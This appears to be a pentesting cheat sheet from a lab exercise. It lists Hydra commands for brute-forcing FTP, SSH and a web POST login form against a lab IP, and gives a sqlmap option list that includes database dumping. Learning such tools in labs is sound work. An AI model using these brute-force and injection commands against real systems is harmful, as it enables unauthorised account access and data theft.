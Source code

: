 ### Hydra

Hydra Commands

The options we pass into Hydra depends on which service (protocol) we're attacking. For example if we wanted to bruteforce FTP with the username being user and a password list being passlist.txt, we'd use the following command:

`hydra -l user -P passlist.txt ftp://10.10.64.167`

For the purpose of this deployed machine, here are the commands to use Hydra on SSH and a web form (POST method).

SSH

`hydra -l <username> -P <full path to pass> 10.10.64.167 -t 4 ssh`

![https://i.imgur.com/D71vkKM.png](https://i.imgur.com/D71vkKM.png)

We can use Hydra to bruteforce web forms too, you will have to make sure you know which type of request its making - a GET or POST methods are normally used. You can use your browsers network tab (in developer tools) to see the request types, of simply view the source code.

Below is an example Hydra command to brute force a POST login form:

`hydra -l <username> -P <wordlist> 10.10.64.167 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

![https://i.imgur.com/vC3ZU4E.png](https://i.imgur.com/vC3ZU4E.png)

## SQL injection

### Sqlmap

```txt
sqlmap -u <url>

-u <url>	specify target url (with protocol)
-g		use google dorking
-p <parm>	spceifiy which parameter to use (include parms in the url)
-dbms		set database
--dump	dump dbms entry
--dump-all dumb all dbms
-D DB		DBMS database to enumerate
-T TBL	DBMS database table to enumerate 
-C COL	DBMS database table comun to enumerate
--level	set level of test to perform (1-5)
--risk		set risk of test to perfomor (1-3)
```

[OWASP SQLi](https://owasp.org/www-community/attacks/SQL_Injection)

## Samba
